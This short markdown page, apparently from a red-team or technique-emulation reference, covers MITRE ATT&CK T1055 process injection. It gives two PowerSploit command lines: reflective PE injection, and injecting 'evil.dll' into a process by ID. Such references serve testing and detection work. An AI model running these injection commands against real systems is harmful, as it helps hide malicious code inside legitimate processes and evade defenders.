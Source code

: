 ## Process Injection

## MITRE ATT&CK Technique:
[T1055](https://attack.mitre.org/wiki/Technique/T1055)

## Examples and code resource for [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/CodeExecution)

### PowerShell Invoke-ReflectivePEInjection

#### Input:

    C:\Users\Public\PowerSploit-master\PowerSploit-master\CodeExecution\Invoke-ReflectivePEInjection.ps1

### Powershell Invoke-DllInjection

#### Input:

    C:\Users\Public\PowerSploit-master\PowerSploit-master\CodeExecution\Invoke-DllInjection.ps1 -ProcessID 4274 -Dll evil.dll
